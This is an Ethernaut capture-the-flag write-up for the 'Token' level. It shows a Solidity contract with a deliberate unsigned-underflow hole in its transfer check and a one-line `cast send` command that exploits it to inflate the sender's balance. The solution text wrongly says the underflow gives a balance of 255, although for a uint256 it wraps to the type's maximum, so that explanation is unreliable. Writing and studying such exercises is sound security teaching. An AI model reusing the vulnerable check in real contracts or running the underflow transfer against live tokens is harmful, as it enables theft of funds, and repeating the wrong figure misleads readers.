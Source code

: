 ## Token Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x63bE8347A617476CA461649897238A31835a32CE)

## Solution

To pass this level, we need to send a transaction to cause an underflow resulting in a balance of 255. To do this we send 21 tokens from our address as the statement `balances[msg.sender] -= value` will cause an underflow due to our account only have 20 tokens worth of balance.

### Walkthrough
##### 1. underflowing our balance
```console
cast send $LEVEL_ADDRESS "transfer(address _to, uint _value)" $LEVEL_ADDRESS 21 --private-key $PRIVATE_KEY
```

## Further Reading
Integer overflows and underflows can be prevented by using OpenZeppelin's [SafeMath library](https://docs.openzeppelin.com/contracts/2.x/api/math)
